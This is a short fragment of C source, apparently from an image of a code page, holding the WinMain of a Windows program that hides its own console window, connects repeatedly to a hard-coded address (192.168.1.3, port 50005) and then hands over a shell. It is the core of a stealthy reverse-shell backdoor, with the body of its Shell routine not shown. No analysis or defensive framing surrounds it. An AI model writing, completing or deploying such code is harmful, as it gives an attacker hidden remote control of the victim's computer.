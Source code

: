 ```c
  }
}

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrev, LPSTR lpCmdLine, int nCmdShow) {
    HWND stealth;
    AllocConsole();
    stealth = FindWindowA("ConsoleWindowClass", NULL);

    ShowWindow(stealth, 0);

    struct sockaddr_in ServAddr;
    unsigned short ServPort;
    char *ServIP;
    WSADATA wsaData;

    ServIP = "192.168.1.3";
    ServPort = 50005;

    if(WSAStartup(MAKEWORD(2,0), &wsaData) != 0) {
        exit(1);
    }

    sock = socket(AF_INET, SOCK_STREAM, 0);

    memset(&ServAddr, 0, sizeof(ServAddr));
    ServAddr.sin_family = AF_INET;
    ServAddr.sin_addr.s_addr = inet_addr(ServIP);
    ServAddr.sin_port = htons(ServPort);

start:
    while (connect(sock, (struct sockaddr *) &ServAddr, sizeof(ServAddr) != 0)) {
      Sleep(10);
      goto start;
    }

    Shell();
}
```
